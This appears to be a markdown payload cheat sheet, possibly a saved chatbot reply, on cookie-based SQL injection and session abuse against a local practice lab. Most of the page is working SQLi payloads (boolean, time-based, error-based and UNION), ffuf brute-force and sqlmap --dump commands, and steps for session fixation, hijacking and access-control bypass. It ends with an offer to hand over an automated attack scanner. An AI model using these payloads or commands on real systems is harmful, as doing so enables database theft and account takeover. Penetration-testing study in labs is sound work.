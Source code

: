 
[[1. SQLMAP]]

# 🔥 SQLi Cookie Injection Payload Arsenal + Attack Scenarios 

---

## 🧨 1. **SQL Injection Payloads (for Cookie)**

These are payloads specifically tailored for **cookie-based SQLi**. You’ll use them in:

`Cookie: session=PAYLOAD_HERE`

---
### ✅ **Logic-Based SQLi (Boolean)**

```
' AND 1=1 --
' AND 1=2 --
' OR '1'='1
' OR 1=1 --
' OR 1=2 --
' OR 'a'='a
' OR 'a'='b
```

---
### ⏱️ **Time-Based Blind SQLi (MySQL, PostgreSQL, MSSQL)**

```
' OR SLEEP(5) --
' AND SLEEP(5) --
' OR IF(1=1, SLEEP(5), 0) --
' OR IF(ASCII(SUBSTRING((SELECT user()),1,1))=114, SLEEP(5), 0) --
'; WAITFOR DELAY '0:0:5' --
```


---
### 💥 **Error-Based SQLi**

```
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(CHAR(88,89,90), FLOOR(RAND()*2)) a FROM information_schema.tables GROUP BY a) b) --
' AND updatexml(1, concat(0x7e, user()), 1) --
' AND extractvalue(1, concat(0x7e, version())) --
```

---
### 🎯 **UNION-Based SQLi**


```
' UNION SELECT NULL, NULL, version() --
' UNION SELECT NULL, NULL, user() --
' UNION SELECT NULL, NULL, database() --
```

> These require knowing the correct number of columns and output reflection.

---

## 📁 GitHub SQLi Payload Repositories

Here are some high-quality payload repos:

1. **PayloadAllTheThings**  
    🔗 [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)  
    Directory: `SQL Injection/`
    
2. **SecLists – SQLi Payloads**  
    🔗 [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)  
    Path: `Fuzzing/SQL-Injection.txt`
    
3. **FuzzDB**  
    🔗 [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)  
    Path: `attack/sql-injection`
    

You can use these directly in Burp Intruder or with tools like `ffuf`, `sqlmap`, or custom Python fuzzers.

---

## ⚔️ 2. **Session-Based Attack Techniques**

Let’s go beyond SQLi and explore full **session abuse vectors**.

---
### ✅ A. **Session Fixation**

> Attacker sets the victim’s session ID _before_ they log in.

#### How to test:

1. Set your own cookie in the browser:
    
    `Cookie: session=eviltoken123`
    
2. Perform login as a normal user.
    
3. Check: does the session stay as `eviltoken123`?
    

#### Exploit:

If **yes**, attacker can trick victim to login with a known session and later reuse it.

---

### ✅ B. **Session Prediction**

> Brute-force or guess session tokens.

Try brute-forcing:

`ffuf -w wordlist.txt -H "Cookie: session=FUZZ" -u http://localhost/labs/i0x02.php`

Or fuzz based on discovered format:

`Cookie: session=6967cabefd763ac1a1a88e11159957dA Cookie: session=6967cabefd763ac1a1a88e11159957dB`

---

### ✅ C. **Session Hijacking**

> Use someone else’s session token to impersonate them.

You already dumped users. If sessions are persistent and predictable:

- Try injecting session IDs of `admin`, `lucy`, `jack` manually:

`Cookie: session=jack123session`

---

### ✅ D. **SQLi in Session (what you’re doing now)**

> Exploit backend SQL query using user-controlled cookie.

If vulnerable:

- Dump database with `sqlmap`:

`sqlmap -u "http://localhost/labs/i0x02.php" \ --cookie="session=asdlfjkhasdjkfasdf*" \ --data="username=jeremy&password=jeremy" \ --level=5 --risk=3 --dump --batch`

---

### ✅ E. **Session Reuse Across Roles (Access Control Bypass)**

> If sessions don’t expire properly, reuse old tokens across roles.

1. Log in as normal user
    
2. Save session cookie
    
3. Log in as admin
    
4. Switch back to previous cookie
    
5. If you're still admin = access control flaw
    

---

## 🔧 Bonus: Burp Intruder Wordlist Fuzz (For Cookie)

Set up Intruder with:

- Position: session value
    
- Payloads: Boolean / Blind / UNION
    
- Grep for:
    
    - Length changes
        
    - 200 vs 403
        
    - “admin”, “error”, “SQL”, etc.
        

---

## ✅ Summary

|Attack Vector|Description|
|---|---|
|**SQLi in Cookie**|Injection via session ID|
|**Session Fixation**|Set session ID pre-login|
|**Session Prediction**|Brute-force valid session values|
|**Session Hijacking**|Use known/guessed session from another user|
|**Access Control Flaws**|Switch session tokens and retain roles|

---

You want a Python script that auto-tests all these cookie-based session vectors?

Say:

> _“Jake, drop the session abuse scanner”_

And it’s yours. 🧨